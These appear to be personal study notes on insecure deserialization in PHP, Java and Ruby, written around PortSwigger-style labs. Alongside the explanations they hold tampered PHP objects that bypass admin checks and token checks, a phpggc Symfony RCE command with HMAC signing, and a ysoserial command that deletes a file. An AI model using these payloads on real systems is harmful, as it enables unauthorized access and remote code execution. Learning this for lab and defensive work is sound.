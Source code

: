 **Serialization** is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential *stream of bytes*. Serializing data makes it much simpler to:
- Write complex data to inter-process memory, a file, or a database
- Send complex data, for example, over a network, between different components of an application, or in an API call
Serialization may be referred to as marshalling (Ruby) or pickling (Python).
![[Pasted image 20240416150946.png]]


**Deserialization** is the process of *restoring this byte stream to a fully functional replica of the original object*, in the exact state as when it was serialized. The website's logic can then interact with this deserialized object, just like it would with any other object.
![[Pasted image 20240416151048.png]]


## What is insecure deserialization?
Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.

It is even possible to replace a serialized object with an object of an entirely different class. Alarmingly, objects of any class that is available to the website will be deserialized and instantiated, regardless of which class was expected. For this reason, insecure deserialization is sometimes known as an *object injection* vulnerability.

An object of an unexpected class might cause an exception. By this time, however, the damage may already be done. **Many deserialization-based attacks are completed before deserialization is finished**. This means that the deserialization process itself can initiate an attack, even if the website's own functionality does not directly interact with the malicious object. For this reason, websites whose logic is based on strongly typed languages can also be vulnerable to these techniques.

---
# PHP Deserialization
![[Pasted image 20240416160914.png]]
```php
 String
 s:size:value;

 Integer
 i:value;

 Boolean
 b:value; (does not store "true" or "false", does store '1' or '0')

 Null
 N;

 Array
 a:size:{key definition;value definition;(repeated per element)}

 Object
 O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}
```


PHP uses a mostly human-readable string format, with letters representing the data type and numbers representing the length of each entry. For example, consider a User object with the attributes:
```php
$user->name = "carlos";
$user->isLoggedIn = true;
```

When serialized, this object may look something like this:
```php
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```

This can be interpreted as follows:
**O:4:"User"** - An object with the 4-character class name "User"
**2** - the object has 2 attributes
**s:4:"name"** - The key of the first attribute is the 4-character string "name"
**s:6:"carlos"** - The value of the first attribute is the 6-character string "carlos"
**s:10:"isLoggedIn"** - The key of the second attribute is the 10-character string "isLoggedIn"
**b:1** - The value of the second attribute is the boolean value true


### Modifying object attributes
Change b to 1 to exploit the vulnerable code
```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}
```
```php
$user = unserialize($_COOKIE);
if ($user->isAdmin === true) {
// allow access to admin interface
}
```


### Modifying Object Types
From the loose comparisons table, we know that `"lol" == 0 is true`.
Why? Because there is no number, that is, 0 numerals in the string. PHP treats this entire string as the integer 0.

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vqm1ebbbx4sj0fx6hge6kgfno5fazde2";}

// Change data type to integer, if password doesn't start with an integer, this should work, else bruteforce with a number
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

### Gadget Chains
A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. An individual gadget may not directly do anything harmful with user input. However, the attacker's goal might simply be to invoke a method that will pass their input into another gadget. By chaining multiple gadgets together in this way, an attacker can potentially pass their input into a dangerous "sink gadget", where it can cause maximum damage.

```sh
# Go on Github to get more info on running this
phpggc Symfony/RCE4 system 'ls -la' -b
```
```php
# You have to also sign the payload using the secret key (might be in phpinfo)
<?php
echo hash_hmac('sha256', 'Output of phpggc in base64 format', 'secret');
?>
```

For more info: https://www.youtube.com/watch?v=8L3jTFYhUqM

---
# Java Deserialization
Java uses binary serialization formats.
For example, serialized Java objects always begin with the same bytes, which are encoded as `ac ed` in **hexadecimal** and `rO0` in **Base64**.

### Gadget Chains
```sh
# ysoserial tool (Requires Java 8)
java -jar ysoserial-all.jar CommonsCollections3 'rm /home/carlos/morale.txt' | base64 -w 0
```


---
# Ruby Deserialization
https://www.elttam.com/blog/ruby-deserialization/
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/#remote-code-execution-with-yaml


---
# Whitebox Pentesting
1) PHP
The native methods for PHP serialization are $serialize()$ and $unserialize()$. If you have source code access, you should start by looking for $unserialize()$ anywhere in the code and investigating further.

Arbitrary Object Injection:-
https://www.vaadata.com/blog/exploiting-and-preventing-insecure-deserialization-vulnerabilities/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md#object-injection

Custom Gadget Chain:-
https://hackmd.io/@monstercuong7/HkYIUuwY6?utm_source=preview-mode&utm_medium=rec#5-Developing-a-custom-gadget-chain-for-PHP-deserialization

2) Java
Any class that implements the interface `java.io.Serializable` can be serialized and deserialized.
Take note of any code that uses the $readObject()$ method, which is used to read and deserialize data from an `InputStream`.
$writeObject()$ for serialization.

For custom gadget chain, check out
https://vanshal.medium.com/sql-injection-by-developing-a-custom-gadget-chain-for-java-deserialization-73e1dcbb9d09